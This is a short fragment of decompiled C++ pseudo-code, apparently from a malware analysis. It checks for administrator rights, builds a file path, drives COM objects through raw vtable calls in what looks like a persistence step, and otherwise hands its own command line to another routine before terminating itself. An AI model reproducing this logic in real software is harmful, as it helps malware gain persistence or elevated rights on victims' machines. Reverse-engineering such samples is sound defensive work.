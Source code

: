 ```c++
  }
  memset(CommandLine, 0, 0x208ui64);
  GetModuleFileNameW(0i64, CommandLine, 0x104u);
  if ( IsUserAnAdmin() )
  {
    sub_180031660(word_18006B494);
    sub_1800317C0(&byte_18006AC30, CommandLine);
    ppv = 0i64;
    ExitCode = 0i64;
    sub_180023360(&ppv);
    if ( ppv )
    {
      sub_1800236B0(ppv, &ExitCode);
      if ( ExitCode )
      {
        memset(v31, 0, 0x208ui64);
        wsprintfW(v31, L"%s\\%s", word_18006B494, word_18006B55C);
        if ( (unsigned int)sub_180031A30(&psz, word_18006B368, v31, dwCreationFlags, (__int64)ExitCode, (__int64)ppv) )
        {
          v18 = ExitCode;
          if ( ExitCode )
          {
            v19 = SysAllocString(&psz);
            v20 = SysAllocString(&Address);
            VariantInit(&pvarg);
            v21 = *v18;
            pvarg.llVal = (LONGLONG)v20;
            pvarg.vt = 8;
            v35 = 0i64;
            if ( (*(int (__fastcall **)(__int64 *, BSTR, __int64 **))(v21 + 104))(v18, v19, &v35) >= 0 )
            {
              if ( v35 )
              {
                v22 = *v35;
                *(_OWORD *)&SystemInfo.dwOemId = *(_OWORD *)&pvarg.vt;
                SystemInfo.lpMaximumApplicationAddress = pvarg.pRecInfo;
                (*(void (__fastcall **)(__int64 *, struct _SYSTEM_INFO *, _QWORD))(v22 + 96))(v35, &SystemInfo, 0i64);
                (*(void (__fastcall **)(__int64 *))(*v35 + 16))(v35);
              }
            }
          }
        }
      }
    }
  }
  else
  {
    sub_180046DB0(CommandLine);
  }
  v23 = GetCurrentProcess();
  return TerminateProcess(v23, 0)
```
